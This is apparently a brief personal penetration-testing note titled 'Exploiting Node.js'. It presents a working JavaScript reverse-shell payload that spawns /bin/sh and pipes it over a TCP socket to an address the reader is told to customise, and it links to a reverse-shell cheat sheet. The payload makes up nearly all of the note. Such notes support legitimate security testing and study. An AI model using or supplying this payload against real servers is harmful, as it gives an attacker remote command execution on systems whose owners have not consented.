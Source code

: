 # Exploiting Node.js

author:: Nathan Acks  
date:: 2021-10-09

## Reverse Shell

The hard part of popping a reverse shell on a Node.js server is tricking the server to load your code. If you can figure out how to do that, this seems to produce a reliable connection:

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		// Customize port and IP address above to taste
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents Node.js from crashing
})();
```

## References

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
